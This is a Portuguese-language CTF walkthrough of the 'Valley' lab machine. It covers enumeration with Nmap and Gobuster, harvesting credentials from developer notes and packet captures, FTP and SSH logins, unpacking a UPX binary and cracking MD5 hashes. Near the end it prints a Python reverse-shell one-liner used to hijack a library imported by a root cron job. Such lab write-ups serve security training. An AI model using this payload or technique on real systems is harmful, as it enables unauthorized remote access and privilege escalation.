 # _**Valley CTF**_
![](valley.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Temos um website, vamos investigar  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos alguns diretórios interessantes  
Vamos investigar  
Nos seguintes diretórios, não encontramos nada:
* _/gallery_
* _/pricing_

Um detalhe chamou a atenção em _/pricing/note.txt_  
Pede para alguém não deixar notas soltas  
Algo chamou a atenção em _/static_, estava vazio e não tinha nenhum redirecionamento em link  
Investigando novamente com <mark>Gobuster</mark> em _/status, encontramos algo interessante  
Tentando acessar os outros diretórios numéricos, temos as imagens, mas o diretório _/00_, temos uma mensagem  

![](scan_gobuster2.jpg)

![](note.jpg)

Acessando o diretório listado, temos uma página de login!

![](login.jpg)

## _**Ganhando acesso**_
Primeiro, uma tentativa de SQL Injection foi feita, mas sem nenhum sucesso  
Segundo, foi tentado observar o que acontecia quando realizavamos uma requisição para o site no login com <mark>BurpSuite</mark>, mas nada  
Observando as requisições feitas para o site ao acessá-la através das ferramentas de desenvolvedor, especificamente em _network_, temos algo que chama a atenção  
Um diretório de nome _/dev.js_  
Acessando o conteúdo de _devNotes37370.txt_, temos uma mensagem  

![](message_to_dev.jpg)

Acima, temos as credenciais para realizar login, do qual é usado para pegar as notas, mas não foi necessário  
Como a nota diz, temos um servidor FTP, mas nada foi detectado na porta 21  
Vamos realizar novamnte um scan com <mark>Nmap</mark>
> ```bash
> nmap -p- -sV --open [ip_address]
> ```
![](scan_nmap2.jpg)

E encontramos! O mesmo valor do arquivo _.txt_ encontrado  
Vamos tentar realizar login via FTP pelas credenciais encontradas: ```ftp [ip_address] [port]```  
E sucesso!  

![](ftp_login.jpg)

Investigando, temos alguns arquivos dos quais realizamo _download_  

![](ftp_files.jpg)

Vamos utilizar <mark>Wireshark</mark> para investigar estes arquivos _.pcapng_  
O primeiro, _siemFTP.pcapng_, nos revelou alguns comandos e usuário, mas não conseguimos realizar login em nenhum  
O segundo, siemHTTP1.pcapng, não encontramos nada de relevante  
O terceiro, siemHTTP2.pcapng, encontramos credenciais novamente!  

![](cred_http_found.jpg)

Podemos tentar realizar login via FTP ou SSH  
Obtemos sucesso em SSH!  

![](login_ssh.jpg)

## _**Escalando privilégios**_
Executamos alguns comandos básicos para verificação de arquivos, como ```sudo -l```, mas não temos permissão ou não encontramos algo  
Então, transferimos <mark>LinPeas</mark> para a máquina-alvo e executamos  
Encontramos algo interessante em _cron jobs_  

![](cron_jobs.jpg)

Um script em python que é executado pelo administrador  
Ele parece utilizar _base64_ para criptografia  
Devido as permissões, não iremos poder alterar nenhum para conseguir escalar privilégios  
Voltando as origens, _/home/valleyAuthenticator_ parece ser um arquivo promissor  
Podemos realizar _download_ para nossa máquina e investigar  
Utilizando ```string```, encontramos uma informação interessante  

![](strings_result.jpg)

Pesquisando sobre o programa, encontramos que, com base na visão geral fornecida no site UPX, podemos descompactar executáveis  
Executamos o comando ```upx -d valleyAuthenticator```  
Novamente, executamos ```strings```  
Vasculhando pelo resultado, encontramos duas _hashes md5_ e utilizamos crackstation para conseguir seu real valor  

![](crackstation.jpg)

Agora com o usuário _Valley_, que pertence ao grupo valleyAdmin, podemos escrever na biblioteca base64 importada naquele script para obter acesso root  
> ```bash
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
> ```
Ligamos nosso ```netcat``` e aguardamos acesso _root_  

![](root.jpg)
